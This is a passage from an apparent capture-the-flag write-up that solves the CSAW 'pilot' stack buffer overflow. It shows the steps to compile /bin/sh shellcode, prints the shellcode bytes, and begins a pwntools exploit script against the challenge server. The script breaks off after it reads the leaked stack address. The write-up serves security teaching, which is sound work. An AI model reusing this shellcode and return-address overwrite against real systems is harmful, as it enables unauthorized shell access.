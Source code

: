 <br>
So what should we place at the beginning of our payload that would give us an advantage as an attacker? We know that the target is a 64-bit Linux (ELF) binary (as per the 'file' output), so why not provide shellcode that executes /bin/sh and drop us into a shell on the host running 'pilot'? NYU's [Offensive Security, Incident Response and Internet Security Laboratory (OSIRIS Lab)](https://osiris.cyber.nyu.edu/){:target="_blank"} was kind enough to open source an entire repository of shellcode written by NYU students. Browsing through this repository, we come across a directory containing shellcode designed to achieve our goal - [64-bit local /bin/sh](https://github.com/isislab/Shellcode/tree/master/64BitLocalBinSh){:target="_blank"}. Let's pull down this code and:

1. Run 'make' to compile the shellcode
2. Leverage the 'shellcodeAsArray' Python script to convert the shellcode to a hex array for use within a Python script
3. Place the hex array at the beginning of our payload
4. Pad the unused bytes with whatever we'd like (confirm the total bytes before the return address is 40)
5. Replace the 8 "B"s with the value of the "Location" address

~~~
# git clone https://github.com/isislab/Shellcode.git
Cloning into 'Shellcode'...
remote: Counting objects: 925, done.
remote: Total 925 (delta 0), reused 0 (delta 0), pack-reused 925
Receiving objects: 100% (925/925), 9.22 MiB | 12.31 MiB/s, done.
Resolving deltas: 100% (406/406), done.
# cd Shellcode/64BitLocalBinSh/
# make
nasm -f elf64 shell64.s -I ../include/ -I ../include/runtime/ -o linkme.o
nasm shell64.s -I ../include/ -I ../include/runtime/ -o shellcode
gcc linkme.o -o testShellcode 
# python ../shellcodeAsArray/sa.py shellcode 
shellcode = ( "\x31\xc0\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\xb0"
"\x3b\x48\x89\xe7\x31\xf6\x31\xd2\x0f\x05"
)
~~~

<br>
By design, our exploit will overwrite the return address with the value of "Location", which is the memory address pointing to the beginning of our user input. Once the function returns, the program execution will be diverted to the beginning of our user input and execute the code therein. This will be our shellcode that executes /bin/sh to drop us into a shell on the target system. For programmatic interaction with the target binary, as well as construction and delivery of our payload, we'll lean on the power of the [pwntools Python library](https://github.com/Gallopsled/pwntools){:target="_blank"}.

```python
#!/usr/bin/python
from pwn import *
import argparse

parser = argparse.ArgumentParser(description='pwntools skeleton')
parser.add_argument('-l', action="store_true", default=False)
args = parser.parse_args()

# check if target is local binary or remote
if args.l:
    print '[+] Going local...'
    r = process('./pilot')
else:
    print '[+] Going remote...'
    r = remote('pwn.chal.csaw.io', 8464)

# read response until "Location:" string is found
r.recvuntil('Location:')
# store "Location" address in variable
address = r.recvuntil('\n')[:-1]
```